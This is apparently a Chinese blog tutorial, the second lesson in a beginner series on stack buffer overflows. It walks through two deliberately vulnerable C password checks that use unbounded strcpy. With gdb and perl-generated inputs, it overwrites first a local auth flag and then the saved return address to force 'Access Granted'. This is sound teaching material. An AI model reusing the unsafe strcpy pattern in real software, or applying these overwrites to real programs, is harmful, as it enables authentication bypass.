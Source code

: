 [Bug Hunter]关于stack overflow Lesson II
=======================================

### 回顾
&emsp;&emsp;上一篇我们已经简单了解了stackoverflow的简单原理，以及怎么利用stackoverflow去控制程序的逻辑，本节Lesson更加深入的探讨一下stackoverflow的进一步利用点。这一个系列是根据博主本人的学习进度写成，所以速度可能偏慢，因为我也有活要干，同时我也是个新手。


### 例子一
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
        int auth_flag = 0;
        char password_buffer[16];

        strcpy(password_buffer, password);

        if(strcmp(password_buffer, "brillig") == 0)
                auth_flag = 1;
        if(strcmp(password_buffer, "outgrabe") == 0)
                auth_flag = 1;

        return auth_flag;
}

int main(int argc, char *argv[]) {
        if(argc < 2) {
                printf("Usage: %s <password>\n", argv[0]);
                exit(0);
        }
        if(check_authentication(argv[1])) {
                printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
                printf("      Access Granted.\n");
                printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
        } else {
                printf("\nAccess Denied.\n");
   }
}
```

&emsp;&emsp;本例是一个简单的认证判断，如果输入参数是`brillig`或者`outgrabe`，那么输出`Access Granted.`。显然这里也有一个stackoverflow的bug，在`strcpy`函数这里。在Stack上，`auth_flag`先入栈，`password_buffer`后入栈，所以`auth_flag`的地址比`password_buffer`高，这样就可以覆盖`auth_flag`的值。`gcc example.c -o example -g`，生成可执行程序。然后`gdb -tui example`获取一些必要的信息如下。
<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/variable_distance.png" /><br>


&emsp;&emsp;算得两地址之差为28，所以我们只需要复写完这28个字节再多复写4个字节就可以了。先看正常情况，`./example $(perl -e "print 'A' x 28")`，结果如下：

> Access Denied.

&emsp;&emsp;再看看复写stack情况，`./example $(perl -e "print 'A' x 32")`，结果如下：

> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>      Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  

&emsp;&emsp;虽然栈被写坏了，但是目的达成。

### 例子二
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
        char password_buffer[16];
        int auth_flag = 0;

        strcpy(password_buffer, password);

        if(strcmp(password_buffer, "brillig") == 0)
                auth_flag = 1;
        if(strcmp(password_buffer, "outgrabe") == 0)
                auth_flag = 1;

        return auth_flag;
}

int main(int argc, char *argv[]) {
        if(argc < 2) {
                printf("Usage: %s <password>\n", argv[0]);
                exit(0);
        }
        if(check_authentication(argv[1])) {
                printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
                printf("      Access Granted.\n");
                printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
        } else {
                printf("\nAccess Denied.\n");
   }
}
```
&emsp;&emsp;与例子一的唯一差别就是调换了`password_buffer`和`auth_flag`的位置，那么`auth_flag`的地址比`password_buffer`要低，这样就没法复写了，那么我们该怎么办呢？
&emsp;&emsp;还记得Lesson I里我讲到的Stack的本质原理吗？一个函数调用的时候先是压栈，后`leave`弹栈，然后再`ret`返回，栈上其实保存着函数返回时的地址，这是地址会压入EIP/RIP，让我们直接`gdb`看一下就明白了。先`gcc example2.c -o example2 -g`，然后`gdb -tui example2 -q`。

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/main_assembly.png" /><br>
&emsp;&emsp;这里我们先注意一下`call   0x40063d <check_authentication>`之后会执行一个判断，就是调用`check_authentication`返回值的判断，我们跳过这个判断，直接执行`0x4006ef`的指令就可以输出`Access Granted`。那现在我们看看栈上保存的返回地址是多少，如下：

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/ret_addr.png" /><br>
&emsp;&emsp;返回地址是`0x4006eb`，也就是调用call之后的下一条指令，我们直接复写返回地址为`0x4006ef`，由于我用的是x86-64的机器，所以是little endian，所以地址得倒着写，执行`./example2 $(perl -e "print '\ef\06\40\00' x 3)`，结果如下：

> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>       Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  



### 结语
&emsp;&emsp;本节提到的一点就是复写函数的返回地址，比复写变量的值更具有杀伤力，是不是呢？
&emsp;&emsp;没点关注的点一波关注，谢谢！Have Fun！See You！
